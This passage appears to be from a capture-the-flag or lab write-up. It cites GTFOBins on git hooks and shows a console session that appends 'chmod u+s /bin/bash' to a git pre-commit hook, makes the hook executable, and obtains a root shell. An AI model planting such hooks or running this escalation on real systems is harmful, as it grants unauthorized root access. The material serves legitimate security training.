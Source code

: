 In [GTFObins](https://gtfobins.github.io/gtfobins/git/) we can get some info about the `pre-commit`.  Taking the example for there, let’s try modifying the bash permissions and executing it by ourselves:

```console
-bash-4.4$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
-bash-4.4$ chmod +x !$
chmod +x ~/.git/hooks/pre-commit
bash-4.4# whoami
	root
```